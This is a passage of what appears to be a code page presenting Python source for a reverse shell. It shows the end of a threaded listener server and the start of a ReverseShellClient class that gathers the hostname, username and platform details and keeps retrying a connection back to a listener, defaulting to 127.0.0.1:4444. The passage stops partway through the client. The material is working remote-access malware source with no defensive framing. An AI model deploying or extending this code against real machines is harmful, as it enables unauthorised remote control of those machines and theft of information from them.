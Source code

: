 ```python
            server.bind((HOST, PORT))
            server.listen(5)
            print(f"[*] Listening on {HOST}:{PORT}")

            while True:
                client, addr = server.accept()
                print(f"[*] Connection from {addr[0]}:{addr[1]}")

                client_handler = threading.Thread(target=handle_client, args=(client,))
                client_handler.start()

    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    start_server()
```

#### Client Code (client.py)

```python
import socket
import subprocess
import os
import sys
import time
import platform
import getpass

class ReverseShellClient:
    """
    A simple reverse shell client implementation
    """

    def __init__(self, host='127.0.0.1', port=4444):
        self.host = host
        self.port = port
        self.socket = None
        self.system_info = self._get_system_info()

    def _get_system_info(self):
        """
        Collects system information
        """
        return {
            'platform': platform.system(),
            'hostname': platform.node(),
            'username': getpass.getuser(),
            'architecture': platform.machine(),
            'version': platform.version()
        }

    def connect(self):
        """
        Establishes connection to the server
        """
        while True:
            try:
                self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                print(f"[*] Connecting to {self.host}:{self.port}")
                self.socket.connect((self.host, self.port))
                print("[*] Connection established!")

                # Send system information
```